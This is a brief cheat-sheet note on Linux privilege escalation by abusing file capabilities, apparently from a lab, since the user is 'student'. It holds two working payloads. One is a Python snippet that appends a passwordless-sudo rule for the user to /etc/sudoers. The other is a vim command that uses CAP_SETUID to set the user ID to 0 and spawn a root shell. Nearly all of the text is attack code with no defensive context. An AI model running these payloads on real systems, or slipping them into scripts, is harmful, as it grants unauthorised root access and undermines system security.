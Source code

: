# capabilites
for cap overwrite

```text-plain
file = open("/etc/sudoers","a")
file.write("student ALL=(ALL) NOPASSWD:ALL")
file.close()
```

for `CAP_SETUID` on vim, we can use the following payload:  

```text-plain
/usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```